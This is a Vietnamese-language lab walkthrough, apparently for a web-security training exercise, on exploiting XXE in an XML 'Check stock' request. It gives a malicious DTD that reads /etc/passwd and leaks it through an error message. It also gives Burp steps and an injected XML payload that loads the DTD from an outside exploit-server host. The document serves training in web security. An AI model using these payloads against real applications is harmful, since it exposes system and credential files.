```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

> - `%file`: đọc nội dung `/etc/passwd`.
>
> - `%eval`: tạo entity `exfil` chứa nội dung đó trong một đường dẫn file lỗi (`file:///invalid/CONTENT-HERE`).
> - `%exfil`: sử dụng entity này để trigger lỗi hiển thị nội dung file trong thông báo lỗi.

**"View exploit"** và ghi lại URL, ví dụ:

```
https://exploit-0a30006f035b6de280ffd5e801e600f1.exploit-server.net/exploit
```

------

Gửi payload tới XML parser

1. Vào trang sản phẩm bất kỳ → nhấn "Check stock".
2. Bắt request `POST /product/stock` bằng **Burp Intercept**.
3. Sửa phần đầu XML như sau:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "https://exploit-0a30006f035b6de280ffd5e801e600f1.exploit-server.net/exploit">
  %xxe;
]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

**Quan sát lỗi trả về**

Sau khi gửi request:

- Ứng dụng sẽ cố truy cập `file:///invalid/<nội-dung-/etc/passwd>`.

- Vì đó là đường dẫn **sai**, ứng dụng có thể hiện lỗi như:

  ```
  File not found: /invalid/root:x:0:0:root:/root:/bin/bash
  ```

Nội dung `/etc/passwd` sẽ hiển thị trực tiếp trong thông báo lỗi!
